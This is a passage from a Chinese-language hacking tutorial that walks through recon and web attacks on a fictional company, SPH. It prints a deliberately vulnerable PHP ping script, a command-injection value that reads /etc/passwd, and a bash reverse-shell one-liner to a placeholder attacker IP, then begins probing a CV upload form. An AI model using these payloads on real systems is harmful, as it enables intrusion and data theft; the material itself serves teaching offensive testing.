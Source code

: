 ```
诸如DNSRecon和DNScan之类的工具可自动执行此类请求，甚至提供最常用的子域列表来推动此搜索过程：Extranet.sph-assets.com，Lync.sph-assets.com，mail.sph-assets .com等

```
root@kali:~# dnsrecon -d sph-assets.com -t brt -D wordlists/domains_short.txt
```
![](./Chap2/16.dnsrecon.png)


一旦编译好域名和IP地址的列表后，我们再次查询centralops.net，以查看哪些真正位于SPH拥有的IP范围内。

就我们的场景而言，让我们假设SPH的公共IP都位于较小的子网172.31.19.0/25中，该子网承载以下Web应用程序:
- Up.sph-assets.com 
- Career.sph-assets.com 
- Info.sph-assets.com 
- Catalog.sph-assets.com

###  2.2.2.Web应用
现在我们已经有了一个url列表，下一步是在这些网站周围寻找可以用来在服务器上执行代码的web漏洞。

> 提示：查找web漏洞需要检查发送到服务器的所有参数。为了正确地实现这一点，Burp Suite或ZAP等工具是最有帮助的。它们拦截每个HTTP请求并更改HTML页面的内容，以绕过一些基本的保护，如隐藏字段、未受保护字段等。它们还很好地概述了网站处理的所有参数，这些参数转化为我们可以潜在地注入恶意代码的更多输入。

#### 1)	up.sph-assets.com
第一个网站是初级的，只提供测试服务器是否启动的功能。在我看来，这是一家小型公用事业公司，由一位匆忙的管理人员组成，他想在一个懒洋洋的周日下午，在家里舒舒服服服地履行自己的职责。
![](./Chap2/17.ping.png)

正如您可能注意到的，输出的结果与Linux系统上ping命令的输出非常相似。它只需将探测发送到远程服务器并等待回复。
![](./Chap2/18.linuxping.png)

也许，只是也许，网站使用我们的输入（输入的域名）在Linux上创建一个ICMP请求并返回结果在PHP上，理论上应该是这样的:
```
<?php	system("ping -c1 ".$_GET['host')]; ?>
```

如果我们的输入$_GET['host']变量在没有任何保护的情况下连接起来，如上面的示例所示，我们可以欺骗web应用程序执行其他系统命令。为此，我们需要添加一个类似“&”的连接字符（“&&”、“；”甚至“|”都可以）。例如，如果网站确实存在漏洞，则除了执行ping命令外，以下输入还将成功列出用户:
```
www.google.com ; cat /etc/passwd
```
![](./Chap2/19.addcmd.png)


有趣！我们试试更漂亮的。一个单行的反弹shell，让我们可以交互访问机器，怎么样:
```
www.google.com; bash -i >& /dev/tcp/FRONT_GUN_IP/443 0>&1
```

在我们的前线服务器上，我们只需要运行一个简单的监听器，比如Netcat，就可以从远程服务器接收传入的shell:
![](./Chap2/20.getshell.png)


我们进去了！如果你想了解如何利用这种低级访问来执行大规模的崩溃，可以跳到第4节，但是为了完整性，让我们检查其他网站并寻找其他隐藏的宝藏。
> 注意：这是一个非常简单的例子来预热，但它为远程代码的执行奠定了基础。检查phpmailer上的漏洞，它遵循相同的思路:https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html


#### 2)	career.sph-assets.com
和其他公司一样，SPH需要招聘人才来拓展业务。这个职业网站通过允许那些想要的员工上传他们的简历来达到这样的目的。

显然，上传文档时，要求的格式是PDF，但是如果我们尝试上传包含代码的文件，比如PHP/JSP或ASP，会怎么样？
![](./Chap2/21.upload.png)

其实没什么。我们从网站上得到一个很好的错误，说除了PDF以外的任何格式都是被禁止的。web应用程序在接受文件类型之前必须执行一些检查以确认其类型。
```
